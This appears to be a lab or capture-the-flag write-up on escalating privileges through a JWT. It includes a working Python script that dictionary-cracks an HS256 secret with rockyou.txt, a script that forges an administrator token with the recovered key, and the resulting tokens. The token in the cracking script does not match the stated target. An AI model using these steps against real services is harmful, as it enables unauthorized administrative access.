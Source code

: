 # JWT Cracking and Privilege Escalation Write-up

## Executive Summary
This report documents the successful exploitation of a JSON Web Token (JWT) vulnerability, resulting in privilege escalation to administrative access. By cracking the JWT secret key and forging a modified token, we were able to manipulate user identity parameters to gain elevated permissions.

## Target JWT
```
eyJhbGciOiJIUzI1NiJ9.eyJpZCI6MTcsInVzZXJuYW1lIjoiYWRtaW4iLCJjb2RlbmFtZSI6ImFkbWluIiwiaWF0IjoxNzQ2OTQ0Mzk5LCJleHAiOjE3NDcwMzA3OTl9.Meiri0srFara5igrbNl8ibFyeYXqkeemtM3XFNi932Q
```

## Methodology

### 1. JWT Analysis

First, we decoded the JWT structure to understand its components:

**Header:**
```json
{
  "alg": "HS256"
}
```

**Original Payload:**
```json
{
  "id": 17,
  "username": "admin",
  "codename": "admin",
  "iat": 1746944399,
  "exp": 1747030799
}
```

### 2. Secret Key Cracking

The JWT used HMAC-SHA256 (HS256) for signature verification, which relies on a secret key. We employed a dictionary attack using the following approach:

1. Extracted the header and payload from the JWT
2. Made a script to bruteforce if the key belongs to rockyou.txt

```python
──(venv)(shub㉿LAPTOP-O18S4BQL)-[~/work/tools]
└─$ cat new2.py
import jwt
from jwt.exceptions import InvalidSignatureError

# JWT token to crack
token = "eyJhbGciOiJIUzI1NiJ9.eyJpZCI6MTcsInVzZXJuYW1lIjoiYWRtaW4yIiwiY29kZW5hbWUiOiJhZG1pbjIiLCJpYXQiOjE3NDY5NDc3MDAsImV4cCI6MTc0NzAzNDEwMH0.DcW6n6DJ7uuT_D95gv1iIwpSACMwxfoJ5_j9wnRNtmk"

# Split header and payload
header = jwt.get_unverified_header(token)
algo = header['alg']

print(f"[*] Algorithm: {algo}")

with open("/usr/share/wordlists/rockyou.txt", "r", encoding="latin-1") as f:
    for line in f:
        secret = line.strip()
        try:
            jwt.decode(token, secret, algorithms=[algo])
            print(f"[+] Secret found: {secret}")
            break
        except InvalidSignatureError:
            continue
        except Exception as e:
            print(f"[-] Error: {e}")
            continue
```
            

**Secret Key Discovery:** `1littlesecret`

### 3. Payload Modification for Privilege Escalation

We identified that modifying the following fields would grant administrative access:
- `id`: Change from `17` to `0` (root/superuser ID)
- `username`: Change from `admin` to `administrator` (system admin account)

**Modified Payload:**
```json
{
  "id": 0,
  "username": "administrator",
  "codename": "administrator",
  "iat": 1746944399,
  "exp": 1747030799
}
```

### 4. JWT Forging

Using the discovered secret key, we generated a new JWT with the modified payload:

```python
import jwt

# Modified payload with elevated privileges
payload = {
    "id": 0,
    "username": "administrator",
    "codename": "administrator",
    "iat": 1746944399,
    "exp": 1747030799
}

# Generate new JWT using the cracked secret
forged_token = jwt.encode(payload, "1littlesecret", algorithm="HS256")
print(forged_token)
```

## Results

### Forged JWT
```
eyJhbGciOiJIUzI1NiJ9.eyJpZCI6MCwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIiwiY29kZW5hbWUiOiJhZG1pbmlzdHJhdG9yIiwiaWF0IjoxNzQ2OTQ0Mzk5LCJleHAiOjE3NDcwMzA3OTl9.QH_Xm91_sL_KQs-h60XUzGU4sZzQe1OdFVa0j_W0U3A
```

This forged JWT, when applied to the Authentication header (`Authorization: Bearer [JWT]`), successfully granted administrative access to protected resources.
